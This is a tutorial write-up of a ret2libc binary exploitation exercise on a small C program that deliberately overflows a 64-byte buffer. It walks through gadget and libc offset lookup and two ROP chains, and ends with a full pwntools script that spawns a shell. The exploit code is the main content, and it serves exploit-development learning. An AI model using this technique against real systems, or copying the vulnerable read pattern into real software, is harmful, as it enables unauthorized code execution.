 # Another awsome breakdown provided by @legacyy.  I was able to perform my first ret2libc thanks to him.
https://www.legacyy.xyz/  
https://twitter.com/0xLegacyy  

The source code of ret2libc

```c
#include <stdio.h>


int main(int argc, char **argv)
{
    char buf[64]; 
	/* buf variable takes 64 bytes of data */

    puts("Welcome! This is a ret2libc ooooooooo spooky");

    read(0, buf, 1024);
	/* read function takes reads user_input of buf. */

    return 0;
}
```

### Reviewing the list of functions using gdb debugger by typing `info func`.

```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401050  puts@plt
0x0000000000401060  read@plt
0x0000000000401070  _start
0x00000000004010a0  _dl_relocate_static_pie
0x00000000004010b0  deregister_tm_clones
0x00000000004010e0  register_tm_clones
0x0000000000401120  __do_global_dtors_aux
0x0000000000401150  frame_dummy
0x0000000000401156  main
0x00000000004011a0  __libc_csu_init
0x0000000000401210  __libc_csu_fini
0x0000000000401218  _fini
```

### I will need find the initial offset for the read function from the global offset table. I can find this inside `.got.plt` in ghidra.

```
read function => 0x404020
```

### Using ROPGadget to retrieve offset of pop_rdi gadget:

```
root@kali:~/recon/ret2lib# ROPgadget --binary=./ret2libc | grep rdi
0x00000000004010c6 : or dword ptr [rdi + 0x404038], edi ; jmp rax
0x0000000000401203 : pop rdi ; ret

pop_rdi => 0x401203
```

### retrieving your read, system and bin_sh offsets from your libc library (x64)

```
I will need to now retrieve my libc offsets using a useful tool named libc-database from github:

git clone https://github.com/niklasb/libc-database.git
cd libc-database
./add /usr/lib/x86_64-linux-gnu/libc.so.6
./identify /usr/lib/x86_64-linux-gnu/libc.so.6 # Will output local-XXXXXXXXXXXXXXXXX
./dump local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88 read system str_bin_sh

1. ./add /usr/lib/x86_64-linux-gnu/libc.so.6
Adding local libc /usr/lib/x86_64-linux-gnu/libc-2.31.so (id local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88  /usr/lib/x86_64-linux-gnu/libc-2.31.so)
  -> Writing libc /usr/lib/x86_64-linux-gnu/libc-2.31.so to db/local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88.so
  -> Writing symbols to db/local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88.symbols
  -> Writing version info

2. ./identify /usr/lib/x86_64-linux-gnu/libc.so.6
local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88

3. ./dump local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88 read system str_bin_sh
offset_read = 0x00000000000eee80
offset_system = 0x0000000000048e50
offset_str_bin_sh = 0x18a152
```

### found the following libc addresses:
```
offset_read       => 0xeee80
offset_system	  => 0x48e50
offset_str_bin_sh => 0x18a152
```

### To leak the libc_read address, I will need to initialize the rop chain.

```py
buf = b"A" * (64 + 8) # The overflow of 64 bytes and overwrite of rbp
buf += p64(pop_rdi) + p64(read_got) # set rdi to read_got
buf += p64(puts_ptr) # puts read_got to screen
buf += p64(main_ptr) # return to main
```

### sending the buf payload to the binary by typing `p.sendline(buf)`

### Cleaning up the leaked address

`leaked_libc_read = u64(p.recvuntil(b"\n")[:-1].ljust(8, b"\x00"))`

- To properly clean the leaked address you must first retrieve it by typing `p.recvuntil(b"\n")`. Then to remove the newline at the end of the address by typing `[:-1]`.
- Then you will need to pad the address to equal 8 bytes to the left, this can be done by using `ljust`. `p.recvuntil(b"\n")[:-1].ljust(8, b"\x00")`
- After padding the address you can unpack the address by using `u64`.

Once cleaned the leaked_libc_read should look like `0x7fe39de9be80`

### Finding your libc_base address

To find your libc_base address you can minus `libc_read` by `leaked_libc_read`.

`libc_base = leaked_libc_read - libc_read`

### Proceeding with adding `libc_system` to `libc_base` and `libc_bin_sh` to `libc_base` to get your system/bin_sh pointer.

`system_ptr = libc_base + system_libc`

`bin_sh_ptr = libc_base + libc_bin_sh`

### Now that you have the necessary functions to call a system shell, create a new rop chain and call system to get your shell. *Reminder* You will need to ensure the rop chain equals to the multiple of 16 so the chain we are executing was not originally a multiple of 16.  To resolve this, we had found a ret; gadget to make it 32 bytes which makes it a multiple of 16 `32 / 16 = 2`.

```py
buf = b"A" * (64 + 8) # once again, adding our overflow and overwrite of rbp
buf += p64(pop_rdi) + p64(bin_sh_ptr) # rip pops rdi as "/bin/sh" pointer
buf += p64(system_ptr) # and system function pointer called "/bin/sh".
buf += p64(ret_gt) # in order for the rop chain to properly execute, another address of 8 bytes is needed to make this a multiple of 16. A simple ret; gadget should work fine.
buf += p64(main_ptr) # returns back to main.
```

### Next, send the new rop chain payload to the binary and execute your system shell.

```bash
python3 ret2libc.py 
[+] Starting local process './ret2libc': pid 5862
Leaked libc => 0x7fdbf2255e80
libc base => 0x7fdbf2167000
system pointer => 0x7fdbf21afe50
bin_sh pointer => 0x7fdbf22f1152

[*] Switching to interactive mode
$ whoami
root

```

### The exploit script

```py
from pwn import *

p = process("./ret2libc")

main_ptr = 0x401156 # offset for main().
puts_ptr = 0x401050 # offset for puts().
pop_rdi = 0x401203 # offset for pop rdi; ret;
read_got = 0x404020 # offset for read() in the global offset table
ret_gt = 0x40101a # ret gadget

libc_read = 0xeee80 # libc read function offset from libc.so.6
system_libc = 0x48e50 # libc system function offset from libc.so.6
libc_bin_sh = 0x18a152 # libc /bin/sh string offset from libc.so.6

#Receive initial text
p.recvline()

# ROP Chain #1
buf = b"A" * (64 + 8) # The overflow of 64 bytes and overwrite of rbp
buf += p64(pop_rdi) + p64(read_got) # set rdi to read_got
buf += p64(puts_ptr) # puts read_got to screen
buf += p64(main_ptr) # return to main

# send ROP chain
p.sendline(buf)

# receive line until a new line and retrieve the leaked libc address.  ljust by adding padding nullbytes until its 8 bytes long then unpack the address so that the address.
leaked_libc_read = u64(p.recvuntil(b"\n")[:-1].ljust(8, b"\x00"))

# Successfully retrieved leaked libc
print(f"Leaked libc => {hex(leaked_libc_read)}")

# Retrieve data
p.recvline()

# Getting the libc base address by minus leaked libc offset against libc_read
libc_base = leaked_libc_read - libc_read
# Getting system pointer by adding system_libc to libc_base
system_ptr = libc_base + system_libc
# Getting /bin/sh pointer by adding libc_bin_sh to libc_base
bin_sh_ptr = libc_base + libc_bin_sh

print(f"libc base => {hex(libc_base)}")
print(f"system pointer => {hex(system_ptr)}")
print(f"bin_sh pointer => {hex(bin_sh_ptr)}")
print()

buf = b"A" * (64 + 8) # once again, adding our overflow and overwrite of rbp
buf += p64(pop_rdi) + p64(bin_sh_ptr) # rip pops rdi as "/bin/sh" pointer
buf += p64(system_ptr) # and system function pointer called "/bin/sh".
buf += p64(ret_gt) # in order for the rop chain to properly execute, another address of 8 bytes is needed to make this a multiple of 16. A simple ret; gadget should work fine.
buf += p64(main_ptr) # returns back to main.

# send new rop chain
p.sendline(buf)
p.interactive()
```

